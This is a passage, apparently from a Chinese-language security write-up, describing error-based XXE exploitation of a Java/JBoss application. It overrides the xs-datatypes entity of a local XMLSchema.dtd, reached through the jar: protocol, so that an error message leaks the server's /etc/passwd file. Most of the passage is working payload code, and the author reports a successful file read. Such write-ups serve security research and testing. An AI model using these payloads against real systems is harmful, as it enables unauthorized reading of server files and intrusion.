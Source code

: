 ```plain
....
<!ENTITY % xs-datatypes PUBLIC 'datatypes' 'datatypes.dtd' >
....
%xs-datatypes; <!-- Here We can overwrite parameter Entity % xs-datatypes and our content would be then passed & parsed here-->
...
....
```

因此，我必须在 XXE 有效 payload 中创建以下实体（基本上覆盖 XMLSchema.dtd 中的现有对象）：

```plain
<!ENTITY % xs-datatypes '<!ENTITY &#x25; file SYSTEM " file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27; file:///abcxyz/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
```

幸运的是，我正在测试的是一个基于 Java 的应用程序，该应用程序具有**“ jar”**协议，可用于读取存档（jar / zip 等）中的文件，  
例如：`jar:file://var/www/html/test.zip!/test.txt`其中 test.txt 是 test.zip 中的文件  
由于我是在本地环境上进行所有操作的，因此我首先确认该应用程序中是否还存在该特定的 jar 文件，结果现实确实如此。

接下来，我要做的就是：

1.  使用 jar 协议读取 jbossxacml-xxxFinal-redhat-x.jar 文件中的 XMLSchema.dtd，
2.  创建“xs-datatypes”实体以覆盖内容

```plain
<!DOCTYPE root [
<!ENTITY %  x SYSTEM 
"jar:file:///jboss-as/modules/system/layers/base/org/jboss/security/xacml/main/jbossxacml-x.x.x.Final-redhat-x.jar!/schema/xmlschema/XMLSchema.dtd"> 
<!ENTITY % xs-datatypes ' <!ENTITY &#x25; file SYSTEM " file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27; file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
%x;
]>
<root>
<id>..</id>
<name>test</name>
</root>
```

成功了！它在 HTTP 响应的错误中返回了/ etc / passwd 的内容  
[![](assets/1704850652-164cd86a7406796de5aaeac4676ff06c.png)](https://cdn.nlark.com/yuque/0/2019/png/336528/1575815005824-dbbe2c95-0d9b-4182-9370-9313a4be4ab2.png#align=left&display=inline&height=318&name=image.png&originHeight=635&originWidth=1600&size=363867&status=done&style=none&width=800)
